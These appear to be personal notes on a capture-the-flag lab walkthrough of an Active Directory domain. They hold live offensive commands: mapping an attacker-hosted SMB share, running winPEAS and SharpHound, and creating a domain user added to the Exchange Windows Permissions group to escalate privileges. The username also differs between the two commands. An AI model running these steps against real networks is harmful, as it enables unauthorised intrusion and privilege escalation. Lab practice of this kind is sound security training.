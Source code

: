 `New-PSDrive -Name rachel -PSProvider FileSystem -Credential $cred -Root \\10.10.14.2\NameofShare (ip of kali box)`
![[Pasted image 20241211210806.png]]
Execute #winpeas
![[Pasted image 20241211210938.png]]
Pull latest version of #bloodhound 
Pre-compiled exes within the repo 
`find . |grep exe`
![[Pasted image 20241211211619.png]]
Copy SharpHound.exe to smb share directory
![[Pasted image 20241211212128.png]]

Run SharpHound

`.\SharpHound.exe -c all`

Before starting Bloodhound.. need to start #neo4j 

`neo4j console`

Execute Bloodhound

`./Bloodhound --no-sandbox`

Use neo4j creds to login

Take bloodhound.zip and drop into bloodhound window

Can run query `Shortest Paths to Kerberoastable Users` (dead end)

Run `Shortest Path from Owned Principals` and discover exchange server

![[Pasted image 20241212181507.png]]
Run nslookup on exchange server:
`nslookup
`>server 10.10.10.161`
`>exch01.htb.local`

![[Pasted image 20241212181730.png]]
Discover different domain `10.10.10.7` however..unreachable by ping.

Looking up `windows account operators group` to determine which groups we cannot add people to.. but if it's not one of those groups we can add a user.

![[Pasted image 20241212182149.png]]

Adding a user to the Exchange Windows Permissions group. 

From initial access shell:

`net user rachel Penny1! /add /domain`

Add this new user to the Exchange Windows Permissions group

`net group "Exchange Windows Permissions" /add rachello`
